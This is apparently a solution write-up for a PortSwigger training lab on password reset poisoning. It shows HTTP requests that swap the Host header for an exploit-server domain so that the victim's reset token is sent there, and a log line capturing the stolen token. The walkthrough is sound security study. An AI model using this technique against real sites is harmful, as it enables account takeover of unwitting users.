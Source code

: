 # [Lab: Basic password reset poisoning](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-basic-password-reset-poisoning)

## Lab

This lab is vulnerable to password reset poisoning. The user `carlos` will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account.

You can log in to your own account using the following credentials: `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server.

## Detect

arbitrary host:

  ```http
  POST /forgot-password HTTP/1.1
  Host: ab

  HTTP/1.1 200 OK
  ```

## Analysis

server use the host header value to create forgot-password url:

```http
POST /forgot-password HTTP/1.1
Host: hacked

username=wiener
```

=>

![email.png](./../img/lab-1-email.png)

## Solutions

intercept a forgot password for `carlos` account:

```http
POST /forgot-password HTTP/1.1
Host: id.web-security-academy.net

csrf=RQr6byJSaljEYYHYKYAYbfAVmbidRpbc&username=carlos
```

change the `Host` header to exploit domain:

```http
POST /forgot-password HTTP/1.1
Host: exploit-id.exploit-server.net

csrf=RQr6byJSaljEYYHYKYAYbfAVmbidRpbc&username=carlos
```

forward, then check logs at the exploit-server:

```text
10.0.3.217      2023-02-06 09:36:58 +0000 "GET /forgot-password?temp-forgot-password-token=IjA38Dxt3OfsjkaM0NiatyrNwSsad0B0 HTTP/1.1"
```

access `/forgot-password` endpoint with the observed token to change Carlos's password, login => solved
